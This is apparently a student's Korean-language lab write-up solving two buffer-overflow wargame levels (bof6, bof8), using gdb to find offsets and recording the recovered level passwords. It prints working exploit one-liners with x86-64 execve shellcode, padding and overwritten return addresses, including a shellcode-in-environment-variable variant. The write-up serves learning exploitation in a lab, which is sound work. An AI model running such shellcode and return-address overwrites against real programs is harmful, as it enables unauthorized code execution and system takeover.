









# HW-7
## bof6
먼저 `bat bof6.c`로 파일을 확인한다.



코드에 system 함수가 없으므로 쉘을 열 수 없다. 따라서 쉘코드를 넣어줘야 한다.

처음엔 쉘코드를 어디에 넣어줘야 하는지 몰라서 당황했다. 

그 다음 힌트의 힘을 빌려서 이런 경우에는 buf에 먼저 쉘코드를 적고, 나머지 buf를 채운다음 그 다음 buf의 주소를 적으면, return address 가 buf가 되어, 쉘이 열리게 된다는 것을 알 수 있었다.

이제, `gdb bof6`로 buf와 return address의 거리를 알아본다.

return address의 주소는 'vuln 함수'를 실행할 때의 'rsp'이다. 

 

즉, return address의 주소는 *0x00007fffffffe488* 이다.

buf의 주소는 'strcpy 함수'의 첫 번째 인자를 보면 알 수 있다. 하지만, gdb로 실행을 하면 'strcpy 함수'로 가지 않는다. 그래서 또 당황을 했다...

그 다음 누군가의 힘을 빌려서 zero flag를 바꿈으로 'strcpy 함수'로 갈 수 있었다.



test가 걸릴 때마다 `set $eflags |= (1 << 6 )`를 해주었다.



여기서 buf의 주소는 'rdi'이다. 즉, *0x00007fffffffe400* 이다.

둘 사이의 거리는 **136** 이다.



이때, 쉘코드는 27바이트이기 때문에 먼저 쉘코드로 채워주고 109만큼 또 채워주면 된다. 

그래서 
```
./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xb0\xe4\xff\xff\xff\x7f'"`
```
라고 했더니, 오류가 나오며 buf의 주소가 나왔다. 
> 이게 gdb를 실행해서 본 buf 주소와, 인자의 값의 길이에 따라 출력되는 buf 주소가 다르다. 이유는 잘 모르겠다.

그래서 이번에 출력된 주소로 바꿔서 입력하면
```
./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xc0\xe3\xff\xff\xff\x7f'"`
```
이다. 그러면 쉘이 열리고 비밀번호가 **04ccd53d** 라는 것을 알 수 있다.

---

먼저 `bat bof8.c`로 파일을 확인한다.



~~힌트와 누군가의 힘을 빌려...~~

'getenv 함수'에서 환경 변수인 "SELLCODE"를 쉘코드로 넣어줘야 한다.
```
export SHELLCODE=`python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`
```

이후 `gdb bof8`를 통해 buf와 return address 거리를 알아본다.



return address의 주소는 'vuln 함수'를 실행할 때의 'rsp'이다. 즉, return address의 주소는 *0x00007fffffffe4a8* 이다.

이후 'test 함수'에서 bof7처럼 zero flag를 바꿔줌으로써 'gets 함수'로 간다.



여기서 buf의 주소는 'rdi'이다. 즉, *0x00007fffffffe498* 이다.

둘 사이의 거리는 **16** 이다.



이때, bof8을 실행하면 쉘코드의 주소가 나오는데, 이를 넣으면 오류가 떴다.
> 그 이후에 나오는 쉘코드의 주소는 또 다르다. 이유는 잘 모르겠다..

이후 새로 나오는 주소로 넣으면
```
(python -c "print 'x'*16+'\x0f\xe8\xff\xff\xff\x7f'";cat) | ./bof8
```

쉘이 열리면서 비밀번호가 **e0caa67f** 라는 것을 알 수 있다.